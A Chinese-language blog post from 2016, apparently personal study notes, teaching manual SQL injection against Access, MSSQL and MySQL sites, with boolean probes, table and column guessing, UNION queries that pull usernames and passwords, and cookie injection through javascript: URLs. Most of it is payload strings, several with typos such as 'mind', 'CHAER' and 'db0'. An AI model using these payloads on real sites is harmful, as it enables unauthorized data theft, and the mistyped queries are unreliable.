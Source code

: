 ```yaml
---
title: review of Network attack and defense
comments: true
date: 2016-09-19 01:02:38
categories: 扫盲教育
---
```

SQL注入即是指攻击者通过在应用程序中预先定义好的查询语句结尾加上额外的SQL语句元素，欺骗数据库服务器执行非授权的任意查询。

## SQL注入基础
### 1.试探 1=1，1=2
1. http://example.asp?id=49
2. http://example.asp?id=49 `and 1=1`
3. http://example.asp?id=49 `and 1=2`

可以注入的表现：
1. 正常显示
2. 正常显示
3. 提示BOF或EOF

不可注入的表现：
1. 正常显示
2. 程序定义的错误提示或提示类型转换时出错。
3. 同上

### 2.判断数据库类型
#### 加单引号
1. 错误提示含有JET（JET是ACCESS数据库的数据库引擎）
2. 错误提示中含有OLEDB（OLEDB是SQL SERVER使用的数据库引擎）

#### and user > 0
SQL SERVER出错：将nvarchar值“abc”转换数据类型为int的列时发生语法错误；“abc”正是变量user的值。SQL SERVER中有一个内置变量user，变量类型为nvarchar。

ACCESS的系统表[msysobjects]在web环境下读该表会提示“没有权限”；SQL SERVER的系统表[sysobjects]在web环境下不可正常读取。

#### `and (select count (*) from sysobjects) > 0`
SQL SERVER显示正常。ACCESS显示出错。

#### `and (select count (*) from msysobjects) > 0`
SQL SERVER显示正常。ACCESS显示没有权限。

### 3.猜表名
`and (select count (*) from admin) >= 0`
返回正常说明admin存在

### 4.猜字段
`and (select count (content) from admin) >= 0`
返回正常说明content字段存在

常用的猜字段函数
ACCESS: asc(字符)	返回字符的ascii
MSSQL: unicode(字符)	同上
ACCESS: char(数字)	返回ascii的字符
MSSQL: nchar()同上
ACCESS: mid(字符串,N,L)	返回字符串从N个字符起，长度为L的子字符串
MSSQL: substring(字符串,N,L)	同上
ACCESS,MSSQL: abc(数字)	返回数字的绝对值（猜汉字使用）
ACCESS,MSSQL: A between B and C	判断A是否在B和C之间

例`and (select asc(mind(password,1,1))from admin) > 100`
查询admin中password字段第1个字符串的ascii是否大于100

例`select * from article where articleid = '' union select * from user where userid = 1  `
第一个select执行后返回结果`title` `content`
`select * from article where articleid = ''`
第二个select执行后返回结果`username` `password`
`select * from user where userid = 1`
整个select执行后返回结果`username` `password`
如果前面查询为真，则同时返回两次查询的内容

1. 判断字段个数`order by`
2. 查表名`and (select count (*) from admin) >= 0`
3. 猜测admin表的字段个数（假如有三个字段id,user,password）`union select 1,2,3,4,5,6,7,8,9,10,* from admin`返回错误，`union select 1,2,3,* from admin`返回正常

inner join on: 指定返回两个表中匹配的行
`select * from admin as a inner join admin as b on a.id = b.id`返回一个表中的两个内容

上方`3`中没法显示admin中所有的字段信息，扩大显示范围，构造如下语句`and 1=2 union select 1,2,3,* from admin as a inner join admin as b on a.id = b.id`

`select * from admin inner join admin1 on admin.id = admin1.id`返回两个表内容

## MSSQL
1. 判断字段个数`order by 13`
2. 判断字段回显位`and 1=2 union all select 1,2,null,4,5,6,7,8,9,10,11,null,13`
3. 数据库版本`and 1=2 union select 1,@@version,null,4,5,6,7,8,9,10,11,null,13`
4. 当前数据库名`and 1=2 union all select 1,db_name(),null,4,5,6,7,8,9,10,11,null,13`
5. 所有数据库名（通过更改dbid，7以上的是用户数据库）`and 1=2 union all select 1,name,null,4,5,6,7,8,9,10,11,null,13 from master.db0.sysdatabases where dbid = 7 --`
6. 表名（更改top后的数字来查询）`and 1=2 union all select 1,name,null,4,5,6,7,8,9,10,11,null,13 from data.db0.sysobjects where xtype = CHAER(85) and name not in (select top 1 name from data.db0.sysobjects where xtype = CHAR(85))--`
7. 字段对应id`and 1=2 union all select 1,id,null,4,5,6,7,8,9,10,11,null,13 from data.db0.sysobjects where xtype = CHAR(85) and name not in (select top 7 name from data.bd0.sysobjects where xtype = CHAR(85))--`
8. 根据id查字段名`and 1=2 union all select 1,id,null,4,5,6,7,8,9,10,11,null,13 from data.db0.syscolumns where ID = 12345 and name not in (select top 1 name from data.db0.syscolumns where ID = 12345)--`

## ASSESS
1. 试探`1=1` `1=2`
2. 环境监测`and ord(mid(version(),1,1))>51`正常则为mysql4以上版本，可以union查询`union select 1,version(),3`
3. 确定字段数`order by 13`
4. 判断精确字段`and 1=2 union select 1,2,3,4`正常返回在页面中
5. 爆数据库名`and 1=2 union select 1,user(),3,database()`正常返回在页面中
6. 爆表`and 1=2 union select 1,TABLE_NAME,3,4 from information_schema.tables where TABLE_SCHEMA = 'blah'`结果返回在2字段
7. 爆字段`and 1=2 union select 1,COLUMN_NAME,3,4 from informations_chema.COLUMN where TABLE_NAME='users'` `and 1=2 union select char(mid(COLUMN-NAME)),2,3,4 from information_schema.COLUMN where TABLE_NAME='users'`
8. 爆数据`and 1=2 union select 1,user,3,password form phptest.users`

## cookie注入
1. 在原地址加单引号
2. 去掉id值，页面出错，构造cookie语句：`javascript:alert(document.cookie="id="+escape("30 and 1=1"))`会弹窗
3. 关闭弹窗，去掉id访问，页面正常
4. 猜测字段`javascript:alert(document.cookie="id="+escape("30 order by 5"))`点击确认，去掉id访问，页面正常则正常
5. 判断回显位`javascript:alert(document.cookie="id="+escape("30 union select 1,2,3,4 from admin"))`点击确认，去掉id访问，页面正常则正常
6. 猜解user password字段`javascript:alert(document.cookie="id="+escape("30 union select 1,user,3,4 from admin"))`
